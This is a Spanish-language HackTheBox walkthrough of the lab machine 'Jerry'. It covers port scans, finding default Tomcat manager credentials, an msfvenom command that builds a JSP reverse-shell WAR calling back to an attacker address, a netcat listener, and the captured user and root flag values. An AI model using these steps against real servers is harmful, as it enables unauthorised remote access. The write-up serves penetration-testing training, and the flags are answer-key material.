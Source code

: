 # Jerry

Plataforma: HackTheBox
OS: Windows
Level: Easy
Status: Done
Complete: Yes
EJPT: yes
Created time: 2 de diciembre de 2024 13:42
IP: 10.10.10.95

## Recopilación de información

<aside>
💡

</aside>

### **Escaneo de puertos**

Comenzamos con un escaneo para identificar que puertos están abiertos.

---

```bash
❯ ❯ sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.95 -oG allports

PORT     STATE SERVICE    REASON
8080/tcp open  http-proxy syn-ack ttl 127

```

### **Enumeración de servicios**

Una vez listado los puertos accesibles, procederemos a realizar la enumeración de servicios para su posterior identificación de vulnerabilidades.

---

```bash
❯ sudo nmap -p8080 -sCV --script=http-enum 10.10.10.95 -oN targeted
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
| http-enum: 
|   /examples/: Sample scripts
|   /manager/html/upload: Apache Tomcat (401 Unauthorized)
|   /manager/html: Apache Tomcat (401 Unauthorized)
|_  /docs/: Potentially interesting folder
|_http-server-header: Apache-Coyote/1.1

```

- **Identificación de vulnerabilidades**
    - 8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1

- **Enumeracion Web (8080)**
    
    
    ![image.png](<imagenes/image 29.png>)
    

Whateweb

```php
whatweb 10.10.10.95:8080
http://10.10.10.95:8080 [200 OK] Apache, Country[RESERVED][ZZ], HTML5, HTTPServer[Apache-Coyote/1.1], IP[10.10.10.95], Title[Apache Tomcat/7.0.88]
	
```

Revisando la web vemos el apartado “Server status” y al acceder aparece:

![image.png](<imagenes/image 30.png>)

Con dos credenciales : tomcat/s3cret

Probamos a acceder:

![image.png](<imagenes/image 31.png>)

Vemos que al acceder, podemos subir ficheros .war

## Explotación

<aside>
💡

</aside>

### Explotación 1

Creamos un payload con msfvenom: 

```bash
msfvenom -p java/jsp_shell_reverse_tcp lhost=10.10.16.9 lport=4444 -f war > shell.war
```

Subimos el fichero, nos ponemos a la escucha con netcat y accedemos a la web /shell.war

Obtenemos la rever:

![image.png](<imagenes/image 32.png>)

Accedemos a los directorios de Administrador :

```bash
C:\Users\Administrator\Desktop\flags>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 0834-6C04

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  06:09 AM    <DIR>          .
06/19/2018  06:09 AM    <DIR>          ..
06/19/2018  06:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)   2,296,217,600 bytes free

C:\Users\Administrator\Desktop\flags>type *.txt 
type *.txt
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
C:\Users\Administrator\Desktop\flags>
```

## Explotación posterior

<aside>
💡 No hay escalada de privilegios

</aside>

## Conclusión

<aside>
💡

</aside>